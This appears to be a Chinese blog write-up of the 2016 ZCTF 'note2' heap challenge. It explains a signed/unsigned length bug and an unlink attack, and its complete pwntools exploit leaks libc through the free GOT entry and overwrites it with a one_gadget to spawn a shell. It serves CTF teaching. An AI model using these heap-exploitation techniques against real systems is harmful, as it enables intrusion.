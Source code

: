 <!--yml
category: 未分类
date: 2022-04-26 14:33:58
-->

# 2016 ZCTF note2 题解_coco##的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_38419913/article/details/103333195](https://blog.csdn.net/weixin_38419913/article/details/103333195)

# 程序分析

先查看程序开启的保护，可以看到没有开启PIE。并且也是一个经典的菜单程序。
![在这里插入图片描述](img/bab33be6a98d29a56cb807efd409bd69.png)

## new note函数

![在这里插入图片描述](img/29d3285511a921cb86ce4fd0e2ed50d4.png)
可以看到，我们一共能申请四个堆块，堆块的指针，数量都存储在bss端上。我们能申请超过0x80的堆块，并在其中写入内容，这里的大小被限制了。但是我们进入my_read函数后就能发现for循环的条件中，size为int类型，而i是unsigned int类型。我们都知道，在c语言中，无符号变量和有符号变量比较时，会将有符号变量转化为无符号变量来比较。所以这里size为0的时候。(unsigned int)(size-1)就就是非常大的整数，所以for循环永远成立，这里的输入长度限制就被突破了。
![在这里插入图片描述](img/89bb4a860d8b6fef833ec00fb694fd72.png)

## show note

输入index，如果index值大小合法并且，对应的指针不为空，就打印出对应的内容。
![在这里插入图片描述](img/bb2800c609e783a50901ac17bf0a2b94.png)

## edit note

重新编辑note中的内容，但是不能超过之前规定的size限制。

## delete note

free note的堆块，并且把指向堆块的指针置空并且把size也置为0。

# 利用思路

由于申请的堆块数量有严格的限制（4块），并且堆块的指针放在bss段上，能知道指针的地址，所以考虑用unlink。

先设计好理想的unlink时堆块的状态，其中要free的是chunk2，在进行后向合并时，对fake chunk P进行unlink。最后的结果是让ptr0指向&ptr0-0x18。
![在这里插入图片描述](img/cabf38d664a87a07dc322b858a6683e8.png)
为了完成如上图的堆块结构。chunk0内的fake chunk可以在一开始调用new note的时候就直接完成。chunk2的pre_size和size字段则需要chunk1溢出来完成。
具体的就是申请完chunk0，chunk1，chunk2之后，free掉chunk1，使之进入fastbin中，再申请回来。由于new note的任意长度写的漏洞，使得溢出chunk1从而修改chunk2的头部成为可能。

```
ptr_0 = 0x602120
fake_fd = ptr_0 - 0x18
fake_bk = ptr_0 - 0x10
note0_content = "\x00" * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
new_note(0x80, note0_content) 
new_note(0x0, "aa") 
new_note(0x80, "bb") 

delete_note(1)
note1_content = "\x00" * 16 + p64(0xa0) + p64(0x90)
new_note(0x0, note1_content)

delete_note(2) 
```

unlink完成之后，就可以容易的进行libc地址的泄漏和get shell。

```
 free_got = e.got["free"]
payload = 0x18 * "a" + p64(free_got)
edit_note(0, 1, payload)

show_note(0)
io.recvuntil("is ")

free_addr = u64(io.recv(6).ljust(8, "\x00"))
libc_addr = free_addr - libc.symbols["free"]
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
one_gadget = libc_addr + 0xf02a4
edit_note(0, 1, p64(one_gadget)) 
```

# 完整的exp

```
 from pwn import *
import binascii

DEBUG = 0
io = process("./pwn")
e = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if DEBUG == 1:
    context.log_level = "debug"
    context.terminal = ["/usr/bin/tmux", "splitw", "-h", "-p", "70"]

def new_note(size, content):
    io.recvuntil(">>")
    io.sendline("1")
    io.recvuntil(")")
    io.sendline(str(size))
    io.recvuntil(":")
    io.sendline(content)

def show_note(index):
    io.recvuntil(">>")
    io.sendline("2")
    io.recvuntil(":")
    io.sendline(str(index))

def edit_note(index, choice, content):
    io.recvuntil(">>")
    io.sendline("3")
    io.recvuntil(":")
    io.sendline(str(index))
    io.recvuntil("]")
    io.sendline(str(choice))
    io.recvuntil(":")
    io.sendline(content)

def delete_note(index):
    io.recvuntil(">>")
    io.sendline("4")
    io.recvuntil(":")
    io.sendline(str(index))

io.recvuntil(":")
io.sendline("/bin/sh") 
io.recvuntil(":")
io.sendline("ddd")

ptr_0 = 0x602120
fake_fd = ptr_0 - 0x18
fake_bk = ptr_0 - 0x10
note0_content = "\x00" * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
new_note(0x80, note0_content) 
new_note(0x0, "aa") 
new_note(0x80, "bb") 

delete_note(1)
note1_content = "\x00" * 16 + p64(0xa0) + p64(0x90)
new_note(0x0, note1_content)

delete_note(2) 

free_got = e.got["free"]
payload = 0x18 * "a" + p64(free_got)
edit_note(0, 1, payload)

show_note(0)
io.recvuntil("is ")

free_addr = u64(io.recv(6).ljust(8, "\x00"))
libc_addr = free_addr - libc.symbols["free"]
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
one_gadget = libc_addr + 0xf02a4
edit_note(0, 1, p64(one_gadget)) 

io.interactive() 
```
